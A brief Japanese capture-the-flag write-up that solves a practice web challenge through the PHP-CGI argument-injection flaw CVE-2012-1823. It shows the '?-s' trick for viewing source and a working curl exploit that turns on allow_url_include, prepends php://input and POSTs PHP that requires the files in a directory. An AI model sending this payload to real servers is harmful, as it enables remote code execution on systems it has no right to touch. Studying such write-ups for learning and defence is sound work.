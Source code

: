 # 1

```
http://ctfq.sweetduet.info:10080/~q12/?-s
```
したらソースが見れる。  
あとは

```
http://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html
```
を参考にディレクトリ表示させるphpスクリプト書いてPOSTで投げる。

```sh
curl -v -X POST 'http://ctfq.sweetduet.info:10080/\~q12/index.php\?-d+allow_url_include%3dOn+-d+auto_prepend_file%3dphp://input' \
	-d '<?php $dir = "./"; if( is_dir( $dir ) && $handle = opendir( $dir ) ) { while( ($file = readdir($handle)) !== false ) { if( filetype( $path = $dir . $file ) == "file" ) { require $path ;}}} ?>'

```